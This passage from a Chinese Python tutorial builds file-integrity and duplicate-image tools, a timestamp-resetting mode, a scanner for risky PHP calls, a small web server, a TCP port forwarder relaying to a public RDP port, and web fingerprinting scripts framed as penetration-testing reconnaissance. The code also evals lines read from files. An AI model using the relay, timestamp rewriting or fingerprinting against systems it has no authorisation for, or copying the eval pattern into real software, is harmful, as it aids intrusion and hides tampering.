            print("[+] CRC: {} ---> 路径: {}".format(Single[0],Single[1]))
        fp.close()

    # 检查文件完整性: main.py --mode=check -d "D:/lyshark" -f dump.json
    elif args.mode == "check" and args.dir and args.files:
        fp = open(args.files,"r")
        for item in fp.readlines():
            _list = eval(item)

            # 取出json文件里的目录进行MD5计算
            _md5 = Calculation_crc32(_list[1])
            # 如果该文件的md5与数据库中的记录不一致,说明被修改了
            if _list[0] != _md5 and _md5 != 0:
                print("[-] 异常文件: {}".format(_list[1]))
            elif _md5 == 0:
                print("[x] 文件丢失: {}".format(_list[1]))

    # 设置文件修改时间: main.py --mode=set -d "D:/lyshark" -t "2019-01-01 11:22:30"
    elif args.mode == "set" and args.dir and args.time:
        _list = ordinary_all_file(args.dir)
        _time = int(time.mktime(time.strptime(args.time,"%Y-%m-%d %H:%M:%S")))
        for item in _list:
            os.utime(item,(_time, _time))
            print("[+] 时间戳: {} ---> 路径: {}".format(str(_time),item))
    else:
        parser.print_help()
```

指定`mode`模式为`dump`用于实现将特定文件计算`CRC`特征，并将该特征保存至`dump.json`文件内，如下图所示；



指定`mode`模式为`check`并指定转存之前的`dump.json`文件，则可用于验证当前目录下是否存在异常文件，如果文件特征值发生了变化则会提示异常文件，而如果文件被删除或被重命名则会输出文件丢失，如下图所示；



指定`mode`模式为`set`则可实现对特定目录内特定文件修改时间参数，例如将`d://lyshark`目录内的文件全部重置时间戳为`2019-01-01 11:22:30`则可执行如下命令，执行后读者可自行观察文件时间变化，如下图所示；



文件与目录遍历功能，不仅可以用于对文件的特征扫描，还可以与`fopen`等函数实现对特定文件内特定内容的扫描，如下是一段实现对文件内特定目录的关键字扫描，运行后读者通过传入需要扫描的路径，扫描的关键字，以及需要扫描文件类型即可。

```python
import os,re
import argparse

def spider(script_path,script_type):
    final_files = []
    for root, dirs, files in os.walk(script_path, topdown=False):
            for fi in files:
                dfile = os.path.join(root, fi)
                if dfile.endswith(script_type):
                    final_files.append(dfile.replace("\\","/"))
    print("[+] 共找到了 {} 个 {} 文件".format(len(final_files),script_type))
    return final_files

def scanner(files_list,func):
    for item in files_list:
        fp = open(item, "r",encoding="utf-8")
        data = fp.readlines()
        for line in data:
            Code_line = data.index(line) + 1
            Now_code = line.strip("\n")
            #for unsafe in ["system", "insert", "include", "eval","select \*"]:
            for unsafe in [func]:
                flag = re.findall(unsafe, Now_code)
                if len(flag) != 0:
                    print("函数: {} ---> 函数所在行: {} ---> 路径: {} " .\
                          format(flag,Code_line,item))

if __name__ == "__main__":
    # 使用方式: main.py -p "D://lyshark" -w eval -t .php
    parser = argparse.ArgumentParser()
    parser.add_argument("-p","--path",dest="path",help="设置扫描路径")
    parser.add_argument("-w","--word",dest="func",help="设置检索的关键字")
    parser.add_argument("-t","--type",dest="type",default=".php",help="设置扫描文件类型,默认php")
    args = parser.parse_args()
    if args.path and args.func:
        ret = spider(args.path, args.type)
        scanner(ret, args.func)
    else:
        parser.print_help()
```

如下图所示，我们通过传入`d://lyshark`以及关键字`gumbo_normalized_tagname`并设置扫描后缀类型`*.c`当程序运行后，即可输出该目录下所有符合条件的文件，并输出函数所在行，这有利于我们快速跳转并分析数据。



#### 21.6.2 使用CRC图片去重

使用`CRC32`还可实现图片去重功能，如下`FindRepeatFile`函数，运行后通过对所有文件做`crc`校验并将校验值存储至`CatalogueDict`字典内，接着依次提取`CRC`特征值并将其存储至`CatalogueList`列表内，接着通过统计特征值出现次数并将该次数放入到`CountDict`字典内，最后循环这个字典，并以此输出文件特征与重复次数，将重复值放入到`RepeatFileFeatures`列表内，如下代码所示；

```Python
import zlib,os

def Find_Repeat_File(file_path,file_type):
    Catalogue = os.listdir(file_path)
    CatalogueDict = {}  # 查询字典,方便后期查询键值对对应参数
    for each in Catalogue:
        path = (file_path + each)
        if os.path.splitext(path)[1] == file_type:
            with open(path,"rb") as fp:
                crc32 = zlib.crc32(fp.read())
                # print("[*] 文件名: {} CRC32校验: {}".format(path,str(crc32)))
                CatalogueDict[each] = str(crc32)
    CatalogueList = []
    for value in CatalogueDict.values():
    # 该过程实现提取字典中的crc32特征组合成列表 CatalogueList
        CatalogueList.append(value)

    CountDict = {}
    for each in CatalogueList:
    # 该过程用于存储文件特征与特征重复次数,放入 CountDict
        CountDict[each] = CatalogueList.count(each)
        
    RepeatFileFeatures = []
    for key,value in CountDict.items():
    # 循环查找字典中的数据,如果value大于1就存入 RepeatFileFeatures
        if value > 1:
            print("[-] 文件特征: {} 重复次数: {}".format(key,value))
            RepeatFileFeatures.append(key)

if __name__ == "__main__":
    Find_Repeat_File("D://lyshark/",".png")
```

运行上述代码，则会扫描`d://lyshark/`目录下所有的`png`格式文件，并输出这些文件特征值，以及该特征的重复次数，如下图所示；



有了上述方法我们就可以实现去重了，当然上述方法还可以优化，通过使用`groupby`功能可以自动实现分组，f恩组后我们只需要对分组进行排序，并寻找对应符合条件的特征，找到后直接调用`os.remove`将其移除即可，实现代码如下所示；

```Python
import zlib,os,argparse
from operator import itemgetter
from itertools import groupby

def Find_Repeat_File(file_path,file_type):
    Catalogue = os.listdir(file_path)
    CatalogueList = []
    for each in Catalogue:
        path = (file_path + each)
        if os.path.splitext(path)[1] == file_type:
            with open(path,"rb") as fp:
                crc32 = zlib.crc32(fp.read())
                # print("[*] 文件名: {} CRC32校验: {}".format(path,str(crc32)))
                CatalogueList.append({ "CRC32": str(crc32) , "FILE": path })
    
    # 首先排序,然后根据字典中的CRC32排序
    CatalogueList.sort(key=itemgetter("CRC32"))
    for key,value in groupby(CatalogueList,key=itemgetter("CRC32")):
        # print("[*] CRC32特征码: {}\t".format(key))
        for each in value:
            RepeatNumber = len(list(value))
            if (RepeatNumber+1) > 1:
                try:
                    print("---> 重复图片: {} 已移除".format(each.values()))
                    os.remove(str(list(each.values())[1]))
                except FileNotFoundError:
                    pass

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-d","--dirs",dest="dirs",help="指定目录路径")
    parser.add_argument("-t","--types",dest="types",help="指定文件类型")
    args = parser.parse_args()
    # 使用方式: main.py -d "d://lyshark/" -t ".png"
    if args.dirs and args.types:
        os.chdir(args.dirs)
        try:
            for each in range(0,len(os.listdir())):
                Find_Repeat_File("./",args.types)
        except:
            pass
    else:
        parser.print_help()
```

如下图所示，我们通过传入`d://lyshark/`并设置`.png`类型，扫描该目录下所有重复文件，并将该文件移除，输出效果如下图所示；



当然上述方法是一次性清楚重复文件，在某些时候我们希望存入文件后自动清理，此时就需要动态监控文件或目录变化，函数`MonitoringDirectory()`可用于动态监控用户目录，当有新文件创建时自动校验是否存在该文件如果存在则删除重复的，其实现原理是不间断的遍历目录，当有新文件产生时自动将该文件计算特征对比，如果重复则删除，该方式虽然可实现目录监控但效率却很低，因为要不间断的遍历目录。

```Python
import os, time
from zlib import crc32

# 计算目标CRC32
def Calculation_crc32(filename):
    try:
        with open(filename,"rb") as fp:
            crc = crc32(fp.read())
            while True:
                temp = fp.read(8196)
                if not temp:
                    break
            fp.close()
            return crc
    except Exception:
        fp.close()
        return 0
    return 0

# 开始监控目录
def MonitoringDirectory(path_to_watch):
    crc_poll = []

    before = dict([(f, None) for f in os.listdir(path_to_watch)])
    while True:
        time.sleep (0.3)

        after = dict ([(f, None) for f in os.listdir (path_to_watch)])
        added = [f for f in after if not f in before]
        removed = [f for f in before if not f in after]

        # 新增文件时触发
        if added:
            # print("新建文件: {}".format(added))
            for index in range(0,len(added)):
                # 计算文件CRC32
                AbsolutePath = path_to_watch + "/" + added[index]
                crc = Calculation_crc32(AbsolutePath)
                print(f"计算文件路径: {AbsolutePath} 文件CRC32: {crc}")

                # 只要有新文件则加入到crc_pool
                if crc != 0:
                    crc_poll.append(crc)

                print("池内数据: {}".format(crc_poll))
                crc_count = 0

                # 循环池内的所有CRC数据
                for index in range(0,len(crc_poll)):

                    # 如果当前文件CRC与池内某个一致则递增
                    if crc_poll[index] == crc:
                        crc_count = crc_count + 1

                    # 只要大于2则说明有重复的
                    if crc_count >= 2:
                        try:
                            print("存在校验值,删除文件: {}".format(AbsolutePath))
                            os.remove(AbsolutePath)
                            crc_poll.remove(crc)
                        except Exception:
                            pass
        # 删除文件时触发
        if removed:
            print("移除文件: {}".format(removed))
        before = after

if __name__ == "__main__":
    MonitoringDirectory("d://lyshark")
```

运行上述程序，则会监控`d://lyshark`目录，当有心文件被创建时会自动对比特征值，如果相同则会被清理，如果无重复的则会被保留，如下图所示；



### 21.7 网络编程中的应用

#### 21.7.1 实现网站服务器

Web服务器本质上是一个提供Web服务的应用程序，运行在服务器上，用于处理HTTP请求和响应。它接收来自客户端（通常是浏览器）的HTTP请求，根据请求的URL、参数等信息生成HTTP响应，并将响应返回给客户端，完成客户端的请求。Web服务器可以使用多种编程语言和技术实现，通过对套接字的处理并遵循HTML等浏览器兼容格式即可实现。

如果需要自行实现一个Web服务器则本质上就是需要完成套接字的处理，并在处理时增加遵循HTTP格式的头部数据即可，如下是一个简单的支持Web服务器的套接字程序，该程序运行后会在本机的`80`端口侦听，当用于通过浏览器访问时则会自动传输一段话。

```python
import socket

def handle_request(client):
    buf = client.recv(1024)
    client.send(bytes("HTTP/1.1 200 OK\r\n\r\n","UTF-8"))
    client.send(bytes("<b>Hello lyshark</b>","UTF-8"))

if __name__ == "__main__":
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.bind(("localhost",80))
    sock.listen(5)

    while True:
        connection, address = sock.accept()
        handle_request(connection)
        connection.close()
```
运行上述代码片段，读者可自行打开浏览器并访问`http://localhost:80`端口，则此时会弹出一段问候语，说明我们的服务器已经可以被浏览器解析了。


当然上述代码还有很大的优化空间，首先要解决的问题是让页面具有动态渲染的功能，此处我们可以采用`jinja2`模板，该模板允许在Web应用程序中渲染HTML，其主要特点是可配置性高、快速、安全且易于使用，使用时读者需要自行执行`pip install jinja2`来安装此模板，至此我们就可以在Web服务器带啊吗中使用模板引擎进行输出。

如下代码片段则是一个使用了`make_server`类的服务器实现，在代码中我们定义了一个`url_func`列表用于存储路由规则，路由规则代表的是当有浏览器访问服务器时则自动使用特定规则内的特定函数处理这个规则，在代码中我们分别定义了两个路由函数，其中`index()`用于展示首页信息，而`jinja()`则用于展示模板渲染功能实现，至此读者需要在主目录下分别创建两个文件`index.html`代表网站主页，而`jinja.html`则代表模板渲染页面，我们以`jinja.html`为例创建如下代码；

```html
<body>
<h1>{{name}}</h1>
<ul>
    
    <li>{{item}}</li>
    
</ul>
</body> 
```

接着编写服务器程序，在`jinja()`路由函数内通过读取`jinja.html`文件并使用`template.render()`函数给特定的变量传入不同的参数，当页面渲染好以后，则通过`return`将该请求返回给`RunServer`函数，再由该函数`return [response,]`返回给被调用客户。

```python
from wsgiref.simple_server import make_server
from jinja2 import Template

# /index/的路由函数
def index():
    with open("./index.html","r",encoding="utf-8")as fp:
        recv = fp.read()
    return recv.encode("utf-8")

# /jinja/的路由函数
def jinja():
    with open("./jinja.html","r",encoding="utf-8")as fp:
        data = fp.read()
        template = Template(data)
        recv = template.render(name='John Doe', user_list=['lyshark', 'wang'])
        return recv.encode("utf-8")

# 定义路由规则
url_func = [
    ('/index/',index),('/jinja/',jinja)]

def RunServer(environ,star_response):
    star_response("200 OK",[('Content-Type','text/html;charset=urf-8')])
    url = environ["PATH_INFO"]
    rAddr = environ["REMOTE_ADDR"]
    rHost = environ["HTTP_HOST"]
    print("[+] 根域名: {} 路径: {} 目标IP: {}".format(rHost,url,rAddr))
    func = None
    for i in url_func:
        if i[0] == url:
            func = i[1]
            break
    if func:
        response = func()
    else:
        response = b"** 404 not found **"
    return [response,]

if __name__ == "__main__":
    httpd = make_server("0.0.0.0",80,RunServer)
    print("[*] 服务已启动 0.0.0.0:80")
    httpd.serve_forever()
```
运行上述代码，读者可以打开浏览器并访问`localhost/jinja/`路径，此时即可看到经过选然后的`HTML`页面，如下图所示；



#### 21.7.2 实现端口流量转发

端口流量转发（Port Forwarding）是一种网络通信技术，用于将特定的网络流量从一个端口或网络地址转发到另一个端口或地址。它在网络中扮演着一个非常重要的角色，在Python语言中实现端口转发非常容易。

如下这段代码实现了一个基本的TCP端口映射，将本地指定端口的流量转发到指定的远程IP和端口。实现方式是在接收到本地客户端连接请求后，创建一个线程，将本地连接和远程连接之间的数据传输通过线程分别实现，这样就实现了数据在本地和远程之间的单向流动，从而实现了TCP端口映射。

具体实现方式如下：

- 1.定义tcp_mapping_worker()函数，接收本地客户端连接和远程服务器连接作为参数，通过while循环监听本地连接，当接收到本地连接的数据时，将数据发送到远程服务器连接，实现本地到远程的单向流动。当本地连接关闭时，结束该线程。
- 2.定义tcp_mapping_request()函数，接收本地客户端连接、远程服务器IP和端口作为参数，创建远程连接，然后使用两个线程分别将本地连接和远程连接之间的数据传输进行处理，从而实现本地与远程之间的单向流动。当本地连接关闭时，结束该函数。

- 3.在主函数中，首先指定远程服务器的IP和端口，然后使用socket创建一个本地服务器监听指定端口，当接收到本地客户端的连接请求时，将其传递给tcp_mapping_request()函数，创建线程进行数据传输。

```python
import socket,threading

# 单向流数据传递
def tcp_mapping_worker(conn_receiver, conn_sender):
    while True:
        try:
            # 接收数据缓存大小
            data = conn_receiver.recv(2048)
        except Exception:
            print("[-] 关闭: 映射请求已关闭.")
            break
        if not data:
            break
        try:
            conn_sender.sendall(data)
        except Exception:
            print("[-] 错误: 发送数据时出错.")
            break
        print("[+] 映射请求: {} ---> 传输到: {} ---> {} bytes"
        .format(conn_receiver.getpeername(), conn_sender.getpeername(), len(data)))
    conn_receiver.close()
    conn_sender.close()
    return

# 端口映射请求处理
def tcp_mapping_request(local_conn, remote_ip, remote_port):
    remote_conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        remote_conn.connect((remote_ip, remote_port))
    except Exception:
        local_conn.close()
        print("[x] 错误: 无法连接到 {}:{} 远程服务器".format(remote_ip,remote_port))
        return
    threading.Thread(target=tcp_mapping_worker, args=(local_conn, remote_conn)).start()
    threading.Thread(target=tcp_mapping_worker, args=(remote_conn, local_conn)).start()
    return

if __name__ == "__main__":
    remote_ip = "8.141.58.64"     # 对端地址
    remote_port = 3389            # 对端端口
    local_ip = "0.0.0.0"          # 本机地址
    local_port = 10050            # 本机端口
    
    local_server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    local_server.bind((local_ip, local_port))
    local_server.listen(5)
    print("[*] 本地端口监听 {}:{}".format(local_ip,local_port))
    while True:
        try:
            (local_conn, local_addr) = local_server.accept()
        except Exception:
            local_server.close()
            break
        threading.Thread(target=tcp_mapping_request, args=(local_conn, remote_ip, remote_port)).start()
```

读者可自行运行上述代码片段，则当用户访问本机地址`127.0.0.1:10050`则会将数据包自动转发到`8.141.58.64:3389`端口上，此时如果用户使用远程链接等工具，则可以实现远程桌面链接功能，如下图所示；



#### 21.7.3 实现Web指纹识别

在当今的Web安全行业中，识别目标网站的指纹是渗透测试的常见第一步。指纹识别的目的是了解目标网站所使用的技术栈和框架，从而进一步根据目标框架进行针对性的安全测试，指纹识别的原理其实很简单，目前主流的识别方式有下面这几种。

 - 识别特定网页中的关键字，比对关键字识别框架：这种方式通过在目标网页的`HTML`、`CSS`、`JavaScript`代码中搜索特定的关键字或标识，比对这些关键字与已知框架的特征进行识别。例如，如果在网页中发现了特定的`JavaScript`函数、`CSS`类名或`HTML`标签，可以推断目标网站所使用的框架或库，如`jQuery`、`AngularJS`等。
 - 通过计算特定的相对独立页面的哈希值，比对实现鉴别：这种方式将目标网页的内容进行哈希计算，生成一个唯一的哈希值，并与已知框架的页面哈希值进行比对。如果目标网页的哈希值与某个框架的哈希值匹配，则可以推断目标网站所使用的框架。这种方法适用于那些在不同页面间保持相对稳定的框架，例如单页应用（SPA）。
 - 通过指定URL的TAG模式，鉴别目标容器类型：这种方式通过分析目标网站的URL结构或特定的URL参数，来推断目标网站所使用的容器类型或框架。例如，如果URL中包含特定的路径或参数，可以推断目标网站可能是基于某个特定容器，如`WordPress`、`Drupal`等。这种方式常用于识别内容管理系统（CMS）或其他特定的应用程序。

这些指纹识别方式都是通过分析目标网站的特定特征或行为，从中推断所使用的框架或技术。它们可以帮助渗透测试人员了解目标网站的技术栈和框架，从而进行针对性的安全测试和漏洞扫描。本节内容中我们将采用第二种方式通过哈希鉴定来确定目标指纹信息，此种方法需要有完善的特征库，这些库我们可以自行寻找制作，也可以使用已有的库经过转换后获取。

在实现指纹识别之前，我们先要尝试读取到该目标网站的标题信息，该功能实现非常简单，只需要读入页面，并依次取出所需要的`"Date","Server","X-Powered-By","title"`字段即可，由于代码较为简单此处就直接放出代码部分。

```python
import re,socket,threading,requests
import argparse

header = {'user-agent':'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) LySharkTools'}

def GetIPAddress(domain):
    try:
        url = str(domain.split("//")[1])
        sock = socket.getaddrinfo(url,None)
        result = re.findall("(?:[0-9]{1,3}\.){3}[0-9]{1,3}", str(sock[0][4]))
        return str(result[0])
    except Exception:
        pass

def GetServerTitle(url):
    try:
        address = GetIPAddress(url)
        Respon = requests.get(url=url,headers=header,timeout=5)
        print("--" * 80)
        print(url + "   ",end="")
        print(address + "   ", end="")
        if Respon.status_code == 200:
            RequestBody = [item for item in Respon.headers]
            for item in ["Date","Server","X-Powered-By"]:
                if item in RequestBody:
                    print(Respon.headers[item] + "   ",end="")
            title = re.findall("<title>.*</title>", Respon.content.decode("utf-8"))
            print(title)
    except Exception:
        pass

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-f","--file",dest="file",help="")
    args = parser.parse_args()
    # 使用方法: main.py -f url.log
    if args.file:
        fp = open(args.file,"r")
        for item in fp.readlines():
            url = item.replace("\n","")
            thread = threading.Thread(target=GetServerTitle,args=(url,))
            thread.start()
    else:
        parser.print_help()
```

这段代码在运行时读者需要准备好需要获取的网站列表，并每行一列放入`url.log`文件中，通过运行如下图所示的命令即可依次读取到这些网站的服务器信息；



我们继续实现指纹识别功能，首先利用`Requests`库将目标页面读入到字符串中，然后调用`MD5`算法计算出该页面的`HASH`值并比对，由于特定框架中总是有些页面不会变动，我们则去校验这些页面的`HASH`值，即可实现对框架的识别，代码很简单这里就直接放出源代码。

```python
import requests
import os,sys,hashlib
import argparse

headers = {'user-agent': 'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) LySharkTools'}

def CheckFinger(url,flag,keyworld):
    if flag == 0:
        ret = requests.get(url=url,headers=headers,timeout=1)
        text = ret.text
        md5=hashlib.md5()
        md5.update(text.encode('utf-8'))
        print("目标网页Hash值:  {}".format(md5.hexdigest()))
    else:
        fp = open(keyworld,"r")
        for i in fp.readlines():
            path = url + eval(i.replace("\n", ""))["Path"]
            hash = eval(i.replace("\n", ""))["Hash"]
            web = eval(i.replace("\n", ""))["WebServer"]
            ret = requests.get(url=path, headers=headers, timeout=1)
            if ret.status_code == 200:
                text = ret.text
                md5 = hashlib.md5()
                md5.update(text.encode('utf-8'))
                if md5.hexdigest() == hash:
                    print("目标Hash：{}  CMS页面类型：{} ".format(hash,web))
                else:
                    continue

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--mode",dest="mode",help="设置检查类型 [check/get]")
    parser.add_argument("-u","--url",dest="url",help="指定需要检测的网站地址")
    parser.add_argument("-f","--file",dest="file",help="指定字典数据库 data.json")
    args = parser.parse_args()
    if args.mode == "get" and args.url:
        CheckFinger(args.url,0,args.file)
    
    # 检测目标容器类型: main.py --mode=check -u https://www.xxx.com -f data.json
    elif args.mode == "check" and args.url and args.file:
        CheckFinger(args.url,1,args.file)
    else:
        parser.print_help()
```

这段代码通过使用`get`方法可获取到特定页面的`hash`值，例如获取`www.lyshark.com`网站特定路径的`hash`值，则可以执行如下命令；



当获取到这些特征后，我们就可以新建`database.db`文件，并将这些数据保存为特定的格式，如下所示；

```json
{"Path":"/about/index.html","Hash": "9e69dd111c6cc873a1f915ca1a331b06","WebServer":"hexo"}
{"Path":"/index.php","Hash": "2457dd111c6cc32461f915ca17789b06","WebServer":"typecho"}
{"Path":"/index.html","Hash": "7530893af83150dc07461f4bc4cc0de6","WebServer":"oss"}
```

当特征库完整时，即可使用`-f`指定特征文件，循环获取是否匹配特征，从而判断web容器使用了那种容器。

